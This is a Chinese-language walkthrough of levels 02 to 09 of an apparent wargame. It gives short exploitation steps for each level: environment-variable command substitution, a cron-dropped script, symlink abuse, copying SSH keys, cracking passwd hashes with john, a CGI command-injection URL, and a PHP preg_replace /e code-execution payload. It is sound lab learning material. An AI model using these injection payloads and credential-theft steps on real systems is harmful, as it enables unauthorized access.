 ###  level02
attack-env-again

修改USER变量, export USER='`/bin/getflag01`'
![](img/level02.png)

### level03
attack-crontab

在writable.d下创建文件test，内容为`/bin/getflag03>/home/flag03/a.txt`
程序会不定期调用该test文件
在a.txt中查看flag
![](img/level03.png)

### level04
get-token

用ln -s /home/flag04/token /home/level04/test1创建链接
执行flag04 获得密码
登录flag04用户获取flag
![](img/level04.png)

### level05
steal-key

ls -a查看隐藏文件，将文件拷贝到home里，解压缩，ssh登录
![](img/level05.png)

### level06
crack-password

在passwd中找到flag06密码，用john破解，得到密码ftc，远程登录
vi /etc/passwd
john hash001(复制密码到该文件中)
![](img/level06.png)

### level07
cgi-vuln

在/home/flag07下找到index.cgi文件，并根据thpptd得知文件在8888端口
通过浏览器访问8888下的index.cgi文件
查询文件，得知需要Host参数，于是在后面加上?Host=127.0.0.1%26/bin/getflag07(其中%26位&的url加密格式)
![](img/level07.png)

### level08

analyze-packets

在flag08下找到数据包文件，先拷贝到level08下，再远程传送到本地，利用wireshark分析数据包
找到password后面的明文字符为：
backdoor+【del】+【del】+【del】+00R+m8+【del】+ate+【enter】
整合后，密码为`backd00Rmate`
登录后获得flag
![](img/level08.png)


### level09

attack-php

在flag09下查看PHP文件，注意到php正则匹配中有\e模式，preg_replace的第二个参数会被当做代码执行，因此在level09下创建临时文件test，内容为：
`[email ${${system(getflag09)}}]`
成功获得flag
![](img/level09.png)




